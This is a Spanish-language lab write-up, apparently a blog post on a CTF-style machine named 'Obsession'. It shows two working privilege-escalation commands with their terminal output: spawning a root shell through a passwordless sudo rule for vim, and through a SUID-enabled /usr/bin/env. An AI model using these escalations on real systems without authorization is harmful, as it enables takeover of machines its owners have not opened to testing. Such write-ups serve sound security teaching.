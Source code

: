 Lo siguiente es realizar la escalada de privilegios o _Root Access_. Yo he encontrado dos maneras de hacer la escalada, así que veremos las dos...

<strong style="color:#65c8dd;">#1 - Sudo -l Root Access</strong>

Con este comando listamos los comandos que un usuario normal y corriente puede ejecutar siendo root, sin pedir contraseña. Nosotros como pentesters nos aprovecharemos y viendo que **vim** se ejecuta como root, lanzaremos una shell siendo el usuario root con el comando **sudo vim -c ':!/bin/sh'**:
```bash
russoski@b772995938d8:~$ sudo -l
Matching Defaults entries for russoski on b772995938d8:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on b772995938d8:
    (root) NOPASSWD: /usr/bin/vim
russoski@b772995938d8:~$ sudo vim -c ':!/bin/sh'

# script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@b772995938d8:/home/russoski# whoami
root
```
Para entender lo que hemos hecho con el comando de vim, veámoslo por partes:
```bash
[+] vim: Es el editor Vim.
[+] -c: Indica que se va a ejecutar un comando después de abrir Vim.
[+] :! es un comando de Vim que permite ejecutar un comando externo, en este caso, el shell /bin/sh.
```
Y con esto ya tendríamos el acceso root y la escalada de privilegios realizada! Ahora veamos la segunda manera...

<strong style="color:#65c8dd;">#2 - SUID Root Access.</strong>

Como lo dice el título nos enfocaremos en los permisos SUID, buscandolos con el comando **find / -perm -4000 2>/dev/null**. 

El resultado nos indica que **/usr/bin/env** tiene estos permisos, así que nos aprovecharemos de ello con el comando **env /bin/bash -p** para lanzar una shell privilegiada/root con **env**.

```bash
russoski@b772995938d8:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/env
/usr/bin/newgrp
/usr/bin/sudo

russoski@b772995938d8:~$ env /bin/bash -p
bash-5.2# whoami
root
```
Y hasta aquí tendríamos la máquina Obsession. ¡Desde aqui quiero enviarle un saludo a Juan y todos sus compañeros de proyecto! 
